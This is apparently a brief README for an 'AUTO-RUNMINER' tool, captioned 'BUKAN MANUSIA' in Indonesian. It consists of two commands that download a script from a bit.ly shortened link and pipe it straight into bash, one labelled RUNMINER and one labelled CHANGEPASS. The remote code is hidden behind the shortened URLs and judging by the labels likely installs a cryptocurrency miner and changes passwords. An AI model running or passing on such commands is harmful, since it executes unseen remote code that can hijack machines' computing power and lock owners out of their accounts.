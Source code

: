 # AUTO-RUNMINER
BUKAN MANUSIA

# RUNMINER

```
bash <(wget -qO- https://bit.ly/3ZMmVo2)

```
# CHANGEPASS
```
bash <(wget -qO- https://bit.ly/3N7PapR)

```
